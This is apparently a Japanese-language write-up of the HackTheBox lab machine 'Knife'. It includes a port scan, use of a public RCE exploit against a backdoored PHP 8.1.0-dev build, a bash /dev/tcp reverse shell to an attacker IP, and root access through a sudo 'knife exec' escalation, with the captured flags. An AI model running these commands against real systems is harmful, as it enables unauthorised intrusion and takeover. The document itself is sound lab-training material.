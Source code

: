 https://app.hackthebox.com/machines/Knife

## STEP 1
```sh
└─$ rustscan -a 10.129.207.242 --scripts none
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.207.242:22
Open 10.129.207.242:80
10.129.207.242 -> [22,80]
```


## STEP 2  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Knife_01.png" width="50%" height="50%">

curlでヘッダを確認、PHPのバージョンを確認できた
```sh
└─$ curl -I http://10.129.207.242 
HTTP/1.1 200 OK
Date: Wed, 25 Jun 2025 04:22:33 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```
今回のphpのバージョンは、RCEが動作するバックドアが仕込まれていたバージョンでありPoCも発見  
```sh
└─$ searchsploit -m 49933
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/49933.py
```
PoCでRCE実行
```sh
└─$ python3.13 49933.py
Enter the full host url:
http://10.129.207.242/ 

Interactive shell is opened on http://10.129.207.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ bash -c "bash -i >& /dev/tcp/10.10.16.7/4444 0>&1"
^CExiting...
```
リバースシェル取得、ユーザフラグゲット！
```sh
└─$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.129.207.242] 51632
bash: cannot set terminal process group (911): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ id
id
uid=1000(james) gid=1000(james) groups=1000(james)


james@knife:~$ cat /home/james/user.txt
cat /home/james/user.txt
bba83508c99c3412f30c9113955ebe23
```


## STEP 3
`/usr/bin/knife`がパスワードなしでroot権限実行できる
```sh
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
[gtfobins](https://gtfobins.github.io/gtfobins/knife/)で権限昇格のコマンドを確認、ルートフラグゲット
```sh
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
sudo knife exec -E 'exec "/bin/sh"'


id
uid=0(root) gid=0(root) groups=0(root)


cat /root/root.txt
c5d240400c720f165d8b28ebcae5b6bd
```
